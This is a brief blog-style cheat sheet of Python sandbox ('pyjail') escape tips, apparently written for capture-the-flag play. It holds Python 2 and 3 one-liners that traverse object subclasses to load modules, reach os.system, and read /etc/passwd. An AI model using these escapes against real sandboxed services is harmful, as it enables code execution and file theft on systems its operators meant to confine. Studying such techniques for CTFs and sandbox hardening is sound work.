 ```yaml
---
layout: post
title: pyjail tips
author: hOwDayS
---
```




<h1>발견할 때 마다 추가 예정</h1>

<br>

<h2>python2</h2>

__read file__

```python
file_path = '/etc/passwd'
print(sys.stderr.__class__(file_path).read())
print(sys.stdout.__class__(file_path).read())
print(sys.stdin.__class__(file_path).read())
```

<br>

<h2>python3</h2>

__run import module__

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[69].load_module(module_name)
#result = <module 'os' (built-in)>
#''.__doc__.__class__.__base__.__subclasses__()[69] = <class '_frozen_importlib.BuiltinImporter'>
```

<br>

__run os module__

```python
os_function_name = 'system'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__[os_function_name]
#result = <built-in function system>
#''.__doc__.__class__.__base__.__subclasses__()[117] = <class 'os._wrap_close'>
```

<br>

__run sys.module__

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__['sys'].modules[module_name]
#result = <module 'os' (built-in)>
#''.__doc__.__class__.__base__.__subclasses__()[117] = <class 'os._wrap_close'>
```

<br>

__read file__

```python
file_path = '/etc/passwd'
print(''.__doc__.__class__.__base__.__subclasses__()[79]('hOw','DayS').get_data(file_path))
#''.__doc__.__class__.__base__.__subclasses__()[79] = <class '_frozen_importlib_external.FileLoader'>
```

<br>